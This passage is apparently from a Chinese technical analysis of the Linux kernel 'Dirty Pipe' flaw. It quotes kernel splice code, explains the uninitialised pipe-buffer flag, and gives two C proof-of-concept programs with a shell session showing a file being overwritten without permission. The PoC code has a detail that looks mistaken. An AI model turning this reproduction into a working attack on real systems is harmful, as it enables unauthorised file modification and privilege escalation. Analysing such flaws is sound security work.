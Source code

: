 ```c
		return 0;

	buf->ops = &page_cache_pipe_buf_ops; 
	get_page(page);   // 增加 page 实例的引用计数
	buf->page = page; // [2] 将 pipe 缓冲区的 page 指针指向文件的 page
	buf->offset = offset; // offset len 等设置为当前信息(通过splice 传入参数决定)
	buf->len = bytes;

	pipe->head = i_head + 1;
	i->iov_offset = offset + bytes;
	i->head = i_head;
out:
	i->count -= bytes;
	return bytes;
}
```

**漏洞**：在调用 `splice` 后，没有初始化`pipe->flag` 变量，如果重新调用 `pipe_write()` 向pipe中写数据，写指针 `pipe->head` 指向上图中的页，`pipe->flag == PIPE_BUF_FLAG_CAN_MERGE`，则被认为可以接着该页续写。

---

## 2. 漏洞起因及触发

**问题发现**：原作者从日志服务器下载包含日志的gzip文件时，出现CRC校验位错误（CRC校验位总是被一段ZIP头覆盖）。问题是在主服务器上，可以生成ZIP的HTTP服务没有写入gzip文件的权限。

**问题模拟**：采用poc1和poc2来分别模拟write进程和 splice进程，write进程没有写入write进程目标文件的权限。

```c
// poc1:write
	int fd = open("./tmpFile", O_WRONLY);
    while (1)
    {
        write(fd, "AAAAA", 5);
    }
// poc2:splice
	int fd = open("./tmpFile", O_WRONLY);
	int p[2];
	pipe(p);
	while (1)
    {
        splice(fd, 0, p[1], NULL, 5, 0);
        write(p[1], "BBBBB", 5);
    }
```

**测试**：poc1往 `./tmpFile` 写入A字符，poc2 往和`./tmpFile` 绑定的管道中写数据。

```bash
$ gcc ./poc1.c -o ./poc1
$ gcc ./poc2.c -o ./poc2
$ echo > ./tmpFile
$ ./poc1     				# 很快就终止
$ ls -lah tmpFile			# 查看修改时间
-rw-rw-r-- 1 john john 1.3M Apr  2 01:41 ./tmpFile
$ cat ./tmpFile | grep B	# tmpFile 文件中全是A，没有B
$ ./poc2
splice 5 bytes
write 5 bytes
Pipe: AAAAABBBBB
splice 0 bytes
write 5 bytes
Pipe: BBBBBBBBBB
$ cat ./tmpFile | grep B	# 问题：tmpFile 文件中出现了B, 出现脏数据B的间隔恰好为4096字节

```